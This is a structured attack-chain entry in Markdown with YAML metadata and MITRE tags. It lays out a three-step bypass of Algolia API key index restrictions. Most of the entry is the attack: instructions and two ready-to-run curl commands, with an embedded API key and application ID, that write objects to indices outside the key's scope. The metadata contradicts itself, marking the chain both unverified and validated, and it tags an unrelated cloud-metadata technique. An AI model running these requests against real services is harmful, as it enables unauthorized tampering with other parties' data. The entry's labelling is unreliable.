

---
tags:
  - algolia
  - api-key
  - authorization-bypass
  - cloud-misconfiguration
type: attack_chain
tools:
  - '[[tools/curl]]'
  - '[[tools/Algolia-Dashboard]]'
tactics:
  - '[[Lateral Movement]]'
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - Web
  - Cloud
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Create-Restricted-API-Key-in-Algolia]]'
  - '[[procedures/Verify-API-Key-on-Intended-Index]]'
  - '[[procedures/Bypass-API-Key-Restrictions-by-Modifying-Index-Name]]'
step_count: 3
techniques:
  - '[[Valid Accounts]]'
  - '[[Cloud Instance Metadata API]]'
updated_at: '2025-12-14T17:32:10.498Z'
description: >-
  Exploits improper enforcement of API key restrictions in Algolia's search API
  to perform unauthorized operations on multiple indices using a key scoped to
  one index.
skill_level: intermediate
impact_level: high
id: 91fcd8cd-55e4-4fcb-848d-72763c39a887
validated: true
mitre_tactics:
  - '[[Lateral Movement]]'
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Valid Accounts]]'
  - '[[Cloud Instance Metadata API]]'
---
# Algolia API Key Scope Bypass for Unauthorized Index Modification

Multi-stage attack chain demonstrating exploitation of API key restrictions in Algolia's search API, allowing unauthorized data modification across indices.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Algolia-Dashboard]]
- [[tools/curl]]
- Browser for API testing

### Target Environment

- Algolia account with access to create API keys
- Target indices within the same Algolia application
- Network access to Algolia's API endpoints (e.g., https://*.algolianet.com)

### Initial Access Requirements

- Valid Algolia account credentials (e.g., as an invited collaborator)
- No special privileges beyond key creation
- API application ID and base URL knowledge

## Detailed Attack Procedures

### Step 1: Create Restricted API Key
procedure: [[procedures/Create-Restricted-API-Key-in-Algolia]]

**Objective**: Generate an API key scoped to a single index with limited permissions to test scope enforcement.

**Instructions**: Access the Algolia dashboard and create a key with 'addObject' ACL only for the 'test' index. Note the generated key value.

**Expected Output**: A new API key string, e.g., '0580d14b1c12e191b078f193b5e0e3ce'.

**Success Indicators**:
- Key created successfully in dashboard
- Key details show restriction to 'test' index and 'addObject' permission

### Step 2: Verify API Key on Intended Index
procedure: [[procedures/Verify-API-Key-on-Intended-Index]]

**Objective**: Confirm the API key functions correctly on the scoped index without errors.

**Instructions**: Use [[commands/curl-add-object-to-test-index]] to send a POST request to the 'test' index batch endpoint with a sample object.

```bash
curl "https://c1-in-2.algolianet.com/1/indexes/test/batch" -H "x-algolia-api-key: 0580d14b1c12e191b078f193b5e0e3ce" -H "x-algolia-application-id: FTCHS7XZX2" -H "Content-Type: application/json" --data '{"requests":[{"action":"addObject","body":{"firstname":"John","lastname":"Doe","zip_code":null}}]}'
```

**Expected Output**: HTTP 200 response with task ID confirming object addition.

**Success Indicators**:
- Object added to 'test' index
- No permission errors in response

### Step 3: Bypass Restrictions to Target Other Indices
procedure: [[procedures/Bypass-API-Key-Restrictions-by-Modifying-Index-Name]]

**Objective**: Exploit the lack of index enforcement by altering the request path to modify unauthorized indices.

**Instructions**: Modify the index name in the URL (e.g., to 'algolia', 'sdfdsf', or '123') and reuse the same key with [[commands/curl-add-object-to-unauthorized-index]] to add objects.

```bash
curl "https://c1-in-2.algolianet.com/1/indexes/algolia/batch?x-algolia-api-key=0580d14b1c12e191b078f193b5e0e3ce&x-algolia-application-id=FTCHS7XZX2&x-algolia-agent=Algolia%20for%20vanilla%20JavaScript%203.7.5" -H "Origin: https://www.algolia.com" -H "Accept-Encoding: gzip, deflate" -H "Accept-Language: en-US,en;q=0.8" -H "User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/48.0.2564.116 Safari/537.36" -H "content-type: application/x-www-form-urlencoded" -H "accept: application/json" -H "Referer: https://www.algolia.com/explorer" -H "Connection: keep-alive" --data "{\"requests\":[{\"action\":\"addObject\",\"body\":{\"firstname\":\"Jimmie\",\"lastname\":\"Barninger\",\"zip_code\":12345}}]}" --compressed
```

**Expected Output**: HTTP 200 response indicating successful addition to the unauthorized index.

**Success Indicators**:
- Objects added to unintended indices like 'algolia'
- No scope enforcement errors

## Attack Chain Summary

### Key Achievements

1. Created a restricted API key for one index
2. Verified functionality on the intended index
3. Bypassed restrictions to modify multiple unauthorized indices, compromising data integrity

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]] Valid Accounts
- [[Cloud Instance Metadata API]] Cloud Services

### MITRE ATT&CK Tactics

- [[Lateral Movement]] Lateral Movement
- [[Privilege Escalation]] Privilege Escalation

---

*Last updated: 2023-10-01T00:00:00Z*
